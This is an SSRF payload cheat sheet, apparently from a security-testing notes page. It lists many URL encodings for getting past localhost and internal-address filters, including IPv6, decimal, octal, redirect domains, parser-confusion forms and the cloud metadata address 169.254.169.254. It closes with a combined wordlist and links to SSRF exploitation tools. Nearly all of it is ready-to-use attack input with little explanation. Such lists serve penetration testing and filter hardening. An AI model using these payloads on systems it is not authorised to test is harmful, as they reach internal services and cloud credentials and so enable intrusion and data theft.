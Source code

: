 # Server Side Request Forgery (SSRF)

## Localhost Bypasses

### Using \[::]

```csharp
http://[::]:80/ #HTTP
http://[::]:25/ #SMTP 
http://[::]:22/ #SSH
http://[::]:3128/ #SQUID
http://0000::1:80/ #HTTP
http://0000::1:25/ #SMTP
http://0000::1:22/ #SSH
http://0000::1:3128/ #SQUID
```

### Using a domain redirection

```csharp
http://spoofed.burpcollaborator.net
http://localtest.me
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://mail.ebc.apple.com redirect to 127.0.0.6 == localhost
http://bugbounty.dod.network redirect to 127.0.0.2 == localhost
```

### Using CIDR

```csharp
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

### Using decimal IP location

```csharp
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
http://2852039166/  = http://169.254.169.254
```

### Using Octal IP

```csharp
http://0177.0.0.1/ = http://127.0.0.1
http://o177.0.0.1/ = http://127.0.0.1
http://0o177.0.0.1/ = http://127.0.0.1
http://q177.0.0.1/ = http://127.0.0.1
```

### Using IPv6/IPv4 Address Embedding

```csharp
http://[0:0:0:0:0:ffff:127.0.0.1]
```

### Using malformed urls

```csharp
localhost:+11211aaa
localhost:00011211aaaa
```

### Using weird address

```csharp
http://0/
http://127.1
http://127.0.1
```

### Using enclosed alphanumerics

```csharp
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com

List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

### Against a weak parser

```csharp
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

## All Payloads - Wordlist

```csharp
http://[::]:80/
http://0000::1:80/
http://spoofed.burpcollaborator.net
http://localtest.me
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
http://2130706433/
http://0177.0.0.1/
http://[0:0:0:0:0:ffff:127.0.0.1]
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

## References

{% embed url="https://github.com/tarunkant/Gopherus" %}
Gopherus - Tool to generate gopher link for exploiting SSRF and gaining RCE in various servers
{% endembed %}

{% embed url="https://github.com/knassar702/lorsrf" %}
lorsrf - SSRF parameter bruteforce (use scant3r module instead)
{% endembed %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#bypass-localhost-with-cidr" %}
SSRF Payloads Repository
{% endembed %}

